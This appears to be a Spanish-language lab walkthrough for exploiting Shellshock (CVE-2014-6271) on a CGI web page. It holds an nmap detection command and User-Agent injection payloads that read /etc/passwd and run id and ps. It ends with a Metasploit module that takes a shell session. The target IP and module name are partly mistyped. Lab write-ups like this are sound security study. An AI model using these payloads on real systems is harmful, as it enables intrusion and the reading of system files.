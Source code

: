 Vamos a explotar la vulnerabilidad 2014-6271 relacionada con el protocolo http

Para ello primero escanearemos el puerto con nmap
![[Pasted image 20240312091406.png]]

Accedemos al navegador para ver la pagina web y revisamos el codigo
![[Pasted image 20240312091522.png]]

![[Pasted image 20240312091545.png]]

Para comprobar si es vulnerable utilizaremos el siguiente auxiliar de nmap
nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.116.179.3
![[Pasted image 20240312091850.png]]

Como vemos es vulnerable, para ello iniciaremos burpsuite y ejecutaremos la siguiente página
192.1168.179.3/gettime.cgi
![[Pasted image 20240312092714.png]]

Como podemos ver aqui nos muestra lo que ha capurado de la web, si seguimos la vulnerabilidad pasaremos todo el codigo a repeater y añadiremos el siguiente codigo en el user-agent: 
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
![[Pasted image 20240312093115.png]]

Como respuesta nos mostrara la inforamción del archivo /etc/passwd
![[Pasted image 20240312093532.png]]


Ahora si ejecutamos el siguiente obtendremos mas información
() { :; }; echo; echo; /bin/bash -c 'id'
![[Pasted image 20240312093704.png]]

Si escribimos el siguiente comando podremos obtener que programas estan ejecutandose, simula que estamos utilizando el comandos ps
() { :; }; echo; echo; /bin/bash -c 'ps -eaf'
![[Pasted image 20240312094155.png]]

Ahora utilizaremos un modulo de metasploit para tomar control del equipo
exploit/multi/http/apache_mod_gi_bash_env>_exec
![[Pasted image 20240312094923.png]]

configuramos el exploit
![[Pasted image 20240312095021.png]]

Y al ejecutarlo podemos ver que obtenemos la sesión
![[Pasted image 20240312095107.png]]


